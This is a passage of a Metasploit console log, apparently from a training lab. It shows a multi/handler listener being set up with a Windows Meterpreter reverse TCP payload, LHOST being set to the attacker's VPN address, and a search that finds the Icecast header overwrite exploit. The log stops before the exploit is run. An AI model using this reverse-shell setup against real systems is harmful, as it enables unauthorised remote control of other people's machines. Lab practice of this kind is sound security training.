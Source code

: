     
    msf5 exploit(multi/handler) > ip addr
    [*] exec: ip addr
    
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
           valid_lft forever preferred_lft forever
        inet6 ::1/128 scope host 
           valid_lft forever preferred_lft forever
    2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
        link/ether 08:00:27:5c:65:26 brd ff:ff:ff:ff:ff:ff
        inet 10.0.2.15/24 brd 10.0.2.255 scope global dynamic noprefixroute eth0
           valid_lft 65979sec preferred_lft 65979sec
        inet6 fe80::a00:27ff:fe5c:6526/64 scope link noprefixroute 
           valid_lft forever preferred_lft forever
    3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 100
        link/none 
        inet 10.9.60.67/16 brd 10.9.255.255 scope global tun0
           valid_lft forever preferred_lft forever
        inet6 fe80::911c:df5a:ac5:e01f/64 scope link stable-privacy 
           valid_lft forever preferred_lft forever
    msf5 exploit(multi/handler) > set LHOST 10.9.60.67
    LHOST => 10.9.60.67
    msf5 exploit(multi/handler) > show options
    
    Module options (exploit/multi/handler):
    
       Name  Current Setting  Required  Description
       ----  ---------------  --------  -----------
    
    
    Payload options (windows/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     10.9.60.67       yes       The listen address (an interface may be specified)
       LPORT     4444             yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Wildcard Target

    msf5 exploit(multi/handler) > use icecast
    [*] Using configured payload windows/meterpreter/reverse_tcp
    
    Matching Modules
    ================
    
       #  Name                                 Disclosure Date  Rank   Check  Description
       -  ----                                 ---------------  ----   -----  -----------
       0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite
    